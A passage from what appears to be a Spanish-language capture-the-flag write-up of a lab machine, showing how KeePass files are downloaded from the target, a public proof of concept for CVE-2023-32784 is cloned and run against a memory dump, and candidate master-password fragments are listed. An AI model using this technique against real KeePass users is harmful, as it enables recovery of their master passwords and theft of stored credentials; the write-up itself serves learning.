 ```bash
wget http://10.10.11.227:8081/RT30000.zip 
```
{: .nolineno}


Al examinar el contenido del archivo, se descubre la presencia de dos archivos relacionados con Keepass. Se procede a buscar información adicional para determinar posibles acciones a realizar con ellos. 

![keepass](/keeper/keepass.png)


> KeePass es una herramienta que te ayuda a tener todas tus contraseñas seguras almacenadas en un mismo lugar sin necesidad de tener que memorizarlas todas. Recordando solamente una, la clave maestra, podrás acceder a tu base de datos de contraseñas que estará cifrada con los algoritmos AES-256, ChaCha20 y Twofish.
{: .prompt-info}


Durante la investigación, se descubre que Keepass presenta una vulnerabilidad reciente **(CVE-2023-32784)** que permite dumpear la clave maestra, posibilitando el acceso al sistema.

![cve](/keeper/cve.png)


Al buscar información sobre esta vulnerabilidad, se localiza el repositorio [matro7sh](https://github.com/matro7sh/keepass-dump-masterkey), donde se encuentra un **POC** en Python diseñado para explotar la vulnerabilidad.

```bash
git clone https://github.com/matro7sh/keepass-dump-masterkey.git
```
{: .nolineno}



```bash
python3 poc.py -d KeePassDumpFull.dmp
```
{: .nolineno}


Pero se obtiene una gran variedad de posibles contraseñas: 

```bash
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```
En este momento, es necesario retroceder sobre los pasos ya dados para intentar obtener alguna pista sobre qué hacer en este punto. Al revisar nuevamente la información sobre la víctima, se nota que el usuario es de nacionalidad danesa, y en ese idioma existen caracteres que no están contemplados en la respuesta actual. Por lo tanto, podrían formar parte de valores que están **censurados** por el punto en la respuesta.
